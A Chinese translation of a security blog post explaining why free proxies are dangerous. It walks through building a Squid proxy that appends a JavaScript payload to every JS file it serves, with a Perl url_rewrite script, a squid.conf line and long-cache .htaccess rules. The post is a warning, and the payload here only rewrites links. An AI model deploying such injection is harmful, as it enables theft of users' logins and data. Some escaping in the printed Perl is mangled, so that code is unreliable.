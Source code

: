 ```yaml
---
title: '[译]Why are free proxies free?'
layout: post
guid: urn:uuid:b87da13a-a4dd-402f-b06a-cef720150705
tags:
    - translate
    - web
    - security
---
```



本文由 [伯乐在线](http://blog.jobbole.com) - [光光头去打酱油](http://www.jobbole.com/members/zhongjianno1) 翻译，[黄利民](http://www.jobbole.com/members/huanglimin) 校稿。未经许可，禁止转载！
英文出处：[Christian Haschek](https://blog.haschek.at/post/fd9bc)。欢迎加入[翻译组](http://group.jobbole.com/category/feedback/trans-team/)。

【伯乐在线注】：原文副标题是“因为这是一种轻松搞到成千上万用户数据的途径”，作者后来还写了一篇文章《[分析了443个免费代理，其中只有21％没有黑幕，那么剩下的79%呢？](http://blog.jobbole.com/87822/)》。

最近偶然发现， Chema Alonso 在 Defcon 20 会议上谈到他如何从头开始创建一个JavaScript 僵尸网络，然后如何使用它来找到骗子和黑客。

一切都是通过一个 SQUID 代理并修改了些小配置完成的。

这个想法非常简单：

1.【服务器】在一台 linux 服务器上安装 Squid

2.【Payload】修改服务器配置，给所有传输的 javascript 文件插入一些代码，这些代码的作用就是将用户数据传送到你的服务器上，比如用户在表单中输入的所有数据。

3.【缓存】将修改过的 js 文件的缓存时间尽可能延长。

## 可能发生的最坏事情是什么？

当某人能强迫你加载一个受感染的 JS 文件， 那他们可以：

*   窃取你访问的网站的登录信息（从登录表单中或 cookies）
*   窃取你的银行账号或信用卡信息
*   强迫你参与 DDOS 攻击，让你的浏览器一秒钟内加载一个网站几百次，通过 iframe 或 script（脚本）来发送请求。
*   基本你上网做的任何事情都能看到（包括你阅读时鼠标的位置）

## https

如果你的网站加载了一些不安全的资源（比如从一个 http 站点加载 jquery），那该手法在 https 链接上也能生效。大多数浏览器都会提醒你，有些甚至会阻止你访问不安全的内容，但是没有人注意到浏览器地址栏中“锁”的符号。

#### 举个例子

安全：[![a1279bf58d](http://jbcdn2.b0.upaiyun.com/2015/06/4052c3bb6c17583a7cfddf7f07331480.png)](http://jbcdn2.b0.upaiyun.com/2015/06/4052c3bb6c17583a7cfddf7f07331480.png)

不安全：[![9f0d9fc0ce](http://jbcdn2.b0.upaiyun.com/2015/06/40d5191bfedec42199ee845c3a1aae59.png)](http://jbcdn2.b0.upaiyun.com/2015/06/40d5191bfedec42199ee845c3a1aae59.png)

在介绍中，Chema 说他将修改过的服务器 IP 地址发布到网络上，几天后就有 5000 多人使用这个代理。大多数使用代理的人都是为了做坏事，因为他们都知道使用了代理在网络上就变成匿名了，似乎许多人都没有考虑过这个问题：代理同样也可以对他们做一些坏事。

我在想是不是真的那么简单，所以我建了一个运行 Debian(Linux的一个发行版) 的虚拟机，然后努力实现这些概念。

## 编写自己的 js 来感染代理

假设你有一个运行 squid 的代理，同时你还需要一个网站服务器，如使用 /var/www 为根目录(默认设置)的 Apache 服务器。

## 步骤1：创建一个 payload

我打算用一个简单的脚本获取网页上所有的链接，然后将 href(链接) 属性改写成我的站点。

/etc/squid/payload.js

    for(var i=0;i&lt;document.getElementsByTagName('a').length;i++)  
       document.getElementsByTagName('a')[i].href = "https://blog.haschek.at";

## 步骤2：将脚本注入所有请求的 js 文件中。

/etc/squid/poison.pl

```
#!/usr/bin/perl

$|=1;
$count = 0;
$pid = $;

while(&lt;&gt;)
{
  chomp $_;
  if($_ =- /(.*.js)/i)
  {
        $url = $1;
        system("/usr/bin/wget","-q","-O","/var/www/tmp/$pid-$count.js","$url");
        system("chmod o+r /var/www/tmp/$pid-$count.js");
        system("cat /etc/squid/payload.js &gt;&gt; /var/www/tmp/$pid-$count.js");
        print "http://127.0.0.1:80/tmp/$pid-$count.jsn";
  }
  else
  {
        print "$_n";
  }
$count++;
}
```

这个脚本会用 wget 检索到客户端请求的原来的 javascript 文件，然后将 /etc/squid/payload.js 文件中的代码增加进去。这个修改的文件（包含我们的有效负载）将被发送给客户端。你也可以创建文件夹 /var/www/tmp ，然后允许 squid 在该文件夹中写入。这个文件夹可以存放所有被修改过的 js 脚本。

## 步骤3：告诉 Squid 使用上文中的脚本

在 /etc/squid/squid.conf 中添加

    url_rewrite_program /etc/squid/poison.pl

## 步骤4：让缓存永不过期

/var/www/tmp/.htaccess

    ExpiresActive On
    ExpiresDefault "access plus 3000 days"

这几行告诉 apache 服务器，设置一个疯狂的过期（缓存）时间，所以它会一直存在用户的浏览器中，直到他们清除缓存或 cookies。

重启下 squid 就能运行了。如果你连接到代理上，然后浏览网页，网页会显示预期的内容，但是所有的链接会被指向这个博客。这项技术更猥琐的是，当你断开了与代理的连接，从代理缓存的 js 文件仍存在浏览的缓存中。

在我的例子中 payload 不太具有破坏性，用户很快就能理解什么是“钓鱼”，但是富有创造性的 payload 或像 Beef 类似的框架就能被用来实现各种各样的东西。告诉你的朋友们，绝不要使用免费的代理，因为许多代理就做这些坏事情。

安全上网（但不要使用免费的代理）
